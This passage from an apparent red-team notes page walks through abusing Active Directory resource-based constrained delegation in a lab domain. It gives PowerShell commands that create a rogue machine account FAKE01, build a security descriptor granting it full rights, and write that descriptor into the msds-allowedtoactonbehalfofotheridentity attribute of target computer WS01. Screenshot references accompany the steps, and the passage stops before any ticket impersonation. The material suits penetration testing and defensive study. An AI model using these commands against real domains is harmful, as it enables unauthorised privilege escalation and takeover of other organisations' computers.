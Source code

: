## Creating a new Computer Object

Let's now create a new computer object for our computer `FAKE01` (as referenced earlier in the requirements table) - this is the computer that will be trusted by our target computer `WS01` later on:

```csharp
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 21-30-46.png>)

Checking if the computer got created and noting its SID:

```csharp
Get-DomainComputer fake01
# computer SID: S-1-5-21-2552734371-813931464-1050690807-1154
```

![](<../../.gitbook/assets/Screenshot from 2019-03-28 22-25-11.png>)

Create a new raw security descriptor for the `FAKE01` computer principal:

```csharp
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

![](<../../.gitbook/assets/Screenshot from 2019-03-28 22-26-41.png>)

## Modifying Target Computer's AD Object

Applying the security descriptor bytes to the target `WS01` machine:

```csharp
Get-DomainComputer ws01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-38-54.png>)

Reminder - we were able to write this because `offense\Sandy` belongs to security group `offense\Operations`, which has full control over the target computer `WS01$` although the only important one/enough is the `WRITE` privilege:



![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-40-43.png>)

If our user did not have the required privileges, you could infer that from the verbose error message:

![](<../../.gitbook/assets/Screenshot from 2019-03-26 22-43-25.png>)
